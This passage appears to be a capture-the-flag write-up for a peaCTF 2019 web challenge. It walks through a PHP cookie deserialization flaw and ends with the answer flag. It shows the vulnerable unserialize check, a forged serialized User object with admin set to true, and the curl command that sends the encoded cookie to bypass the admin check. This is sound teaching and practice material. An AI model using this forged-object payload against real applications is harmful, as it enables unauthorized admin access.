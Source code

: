 ```php
        echo file_get_contents('../flag');
    } else {
        http_response_code(403);
        echo "Permission Denied";
    }
} else {
    echo "Not logged in.";
}
?>
</body>
</html>
```

It takes a cookie named 'user', first makes sure it's not empty, the unserializes it, calls `$user->is_admin()` and gives us the flag only if it returns true. This tells me that the cookie is actually an object that is serialized and stored as the cookie (in its 'value' field). 

I used [writephponline](http://www.writephponline.com/) to write my own class for this object. I had to make an 'educated guess' on how the `is_admin()` function worked. After a little bit of trial and error, this worked. The hint of the challenge also helps a lot.
```php
class User
{
    public $admin = true; //the real class doesnt set it to true by default, but we want it to be true

    public function is_admin() 
    {
        return $admin;
    }
}

$a = new User();
echo serialize($a);

# Output = 'O:4:"User":1:{s:5:"admin";b:1;}'
```

Then I url encoded output from above and used curl. Curl wouldn't work without at least url encoding or escaping out the quotes and colons from the above output.
```shell
~/Documents/peactf/educated_guess_COMPLETE# curl --cookie "user=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22admin%22%3Bb%3A1%3B%7D" http://shell1.2019.peactf.com:1428/query.php
<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
flag{peactf_follow_conventions_4022940cb27774f618aa62fe8be202bc}</body>
</html>
```
